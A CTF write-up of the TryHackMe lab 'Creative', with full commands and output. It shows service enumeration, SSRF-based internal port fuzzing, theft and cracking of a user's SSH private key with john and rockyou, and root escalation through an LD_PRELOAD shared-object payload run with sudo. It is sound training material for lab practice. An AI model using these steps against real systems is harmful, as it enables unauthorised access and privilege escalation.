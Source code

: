```yaml
---
title: "Creative"
date: 2025-02-18
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Creative
categories: [TryHackMe, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Creative</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a vulnerable web application and some misconfigurations to gain root privileges.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/creative">https://tryhackme.com/room/creative</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Creative.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.222.5               
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:54 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.045s latency).
  Not shown: 65533 filtered tcp ports (no-response)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 116.54 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.222.5
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:57 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.044s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
  |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
  |_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
  80/tcp open  http    nginx 1.18.0 (Ubuntu)
  |_http-title: Did not follow redirect to http://creative.thm
  |_http-server-header: nginx/1.18.0 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.71 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

When I accessed the webserver, my browser was redirected to the DNS name `creative.thm`. I added the name to my `hosts` file an proceed. Due to the hostname, I started with a subdomain enumeration:

```bash
 ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.creative.thm" -u http://10.10.222.5/ -fs 178

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.222.5/
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
   :: Header           : Host: FUZZ.creative.thm
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 178
  ________________________________________________

  beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 45ms]
```

I found a subdomain that displayed a URL Tester:

![URL tester](/assets/img/tryhackme/Creative/thm_creative_1.jpg)

I started with the local website `http://127.0.0.1/`, and it loaded successfully. This appeared to be a Server-Side Request Forgery (SSRF) vulnerability, so I checked whether I could reach another internal system on a different port. I used ffuf to fuzz localhost and all ports up to 65535. I created a port list using `seq` as the wordlist for ffuf.

```bash
$ seq 65535 > ports.txt
$ ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fs 13

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : POST
   :: URL              : http://beta.creative.thm/
   :: Wordlist         : FUZZ: /home/kali/ctf/creative/ports.txt
   :: Header           : Content-Type: application/x-www-form-urlencoded
   :: Data             : url=http://127.0.0.1:FUZZ
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 13
  ________________________________________________

  80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 80ms]
  1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 78ms]
```

Ffuf identified an interesting port. I started by checking port `1337`, which revealed a directory listing on the server:

![Directory browsing](/assets/img/tryhackme/Creative/thm_creative_2.jpg)

Since I had some initial access to the system, I enumerated the files and directories to gain better access. I found the `.bash_history` in the `/home/saad` directory. The user had stored their credentials in a file:
```bash
[...]
sudo -l
echo "saad:[removed]" > creds.txt
rm creds.txt
[...]
```

I tried using this to connect via SSH, but received an error due to my public key. I searched for `Saad's` private key and found it under `/home/saad/.ssh/id_rsa`. After downloading the key, I saved it in a file called `id_rsa`. To establish the SSH connection, I needed the password for the key. I used `ssh2john` to retrieve the key hash and stored it in a file. Using john and the rockyou.txt wordlist, I was able to crack the password. After that, I was able to log in via SSH and retrieved the user flag:
```bash
$ nano id_rsa
$ ssh2john id_rsa > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
  Cost 2 (iteration count) is 16 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  [removed]        (id_rsa)     
  1g 0:00:00:10 DONE (2025-02-18 04:23) 0.09124g/s 87.59p/s 87.59c/s 87.59C/s hawaii..sandy
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
$ chmod 600 id_rsa
$ ssh -i id_rsa saad@10.10.246.214

saad@m4lware:~$ cat user.txt
  [removed]
```

## Privilege Escalation root
I started with `sudo -l` because I already found the password and got the following output:
```bash
$ sudo -l
  [sudo] password for saad: 
  Matching Defaults entries for saad on m4lware:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

  User saad may run the following commands on m4lware:
      (root) /usr/bin/ping
```

The tool `ping` itself wouldn't be of much help, but in combination with `env_keep+=LD_PRELOAD`, it was. First, I created a file called shell.c with the following content:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Then I compiled it as a shared object using `gcc`:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

I was able to specify the `LD_PRELOAD` to point to my shared object, started a ping using `sudo`, and became root. From there I was able to retrieve the root flag:
```bash
$ sudo LD_PRELOAD=/home/saad/shell.so /usr/bin/ping
root@m4lware:/home/saad# cd /root
root@m4lware:~# cat root.txt 
  [removed]
```

solved! :)